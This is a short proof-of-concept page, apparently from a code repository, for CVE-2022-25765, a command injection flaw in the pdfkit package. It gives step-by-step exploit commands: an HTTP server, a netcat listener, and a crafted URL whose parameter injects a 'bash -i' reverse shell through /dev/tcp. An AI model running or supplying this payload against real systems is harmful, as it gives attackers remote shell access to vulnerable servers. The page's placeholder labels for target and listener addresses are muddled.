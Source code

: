 # PDFkit-CMD-Injection 

### CVE-2022-25765 Detail

#### Description
The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.



### PoC

#### Start a HTTP server
<pre>
1- python3 -m http.server 80
</pre>
#### Start a netcat listener
<pre>
2- nc -lnvp 'Target Port'
</pre>
#### Make a request 
<pre>
3- http://"TARGET_ADDRESS:Target PORT"//?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/"Target_ADRESS/LISTENING_PORT"<&1'`'}
</pre>
